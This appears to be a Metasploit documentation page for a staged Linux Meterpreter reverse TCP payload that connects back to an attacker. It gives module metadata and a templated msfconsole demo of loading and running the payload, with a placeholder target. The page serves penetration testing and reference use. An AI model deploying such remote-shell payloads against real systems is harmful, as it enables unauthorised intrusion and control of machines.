 ## Linux Meterpreter, Reverse TCP Stager

Inject the meterpreter server payload (staged). Connect back 
to the attacker


## Module Name
payload/linux/x86/meterpreter/reverse_tcp_uuid

## Authors
* PKS
* egypt
* OJ Reeves
* skape





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/meterpreter/reverse_tcp_uuid
msf payload(reverse_tcp_uuid) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_uuid) > set TARGET <target-id>
msf payload(reverse_tcp_uuid) > show options
   ... show and set options ...
msf payload(reverse_tcp_uuid) > run
```
    
    